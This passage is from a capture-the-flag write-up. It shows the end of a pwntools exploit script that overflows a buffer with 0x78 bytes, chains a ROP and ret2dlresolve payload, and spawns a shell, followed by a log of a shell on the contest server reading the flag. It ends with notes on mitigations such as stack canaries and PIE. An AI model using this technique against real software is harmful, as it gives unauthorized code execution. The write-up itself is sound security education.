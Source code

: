 ```python
else:
    p = process(binary.path)

payload  = b''
payload += 0x78 * b'A'
payload += rop.chain()
payload += b'\n'
payload += dl.payload

p.sendline(payload)
p.interactive()
```

Baby walk.  Google _ret2dlresolve_ or read some of my other write ups for details.


Any of the above will get you a shell:

```bash
# ./exploit.py
[+] Opening connection to pwn.utctf.live on port 5000: Done
[*] Switching to interactive mode
$ cat flag.txt
utflag{you_expected_the_flag_to_be_screaming_but_it_was_me_dio98054042}
```

### But, what if ...

Just because there's a vulnerability (e.g. `gets`), that does not mean it's exploitable.  There are other ways to mitigate, e.g. recompile with a stack canary and PIE (the defaults BTW), and this problem becomes a lot harder if not impossible.
